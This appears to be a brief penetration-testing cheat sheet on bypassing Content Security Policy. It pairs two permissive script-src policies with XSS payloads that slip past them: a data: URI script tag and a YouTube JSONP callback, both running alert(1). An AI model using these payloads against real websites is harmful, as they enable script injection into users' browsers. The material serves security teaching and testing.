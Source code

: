 ___

Content Security Policy

# Data

```
content-security-policy
	script-src 'self' https://app.hackinghub.io data:
```

```html
<script src=data:text/javascript,alert(1)></script>
```

# 3rd Party Domains JSONP

```
content-security-policy
	script-src 'self' https://app.hackinghub.io https://www.google.com https://www.youtube.com
```


```html
<script/src=https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=oOfgVmxBk6U&callback=alert(1)></script>
```

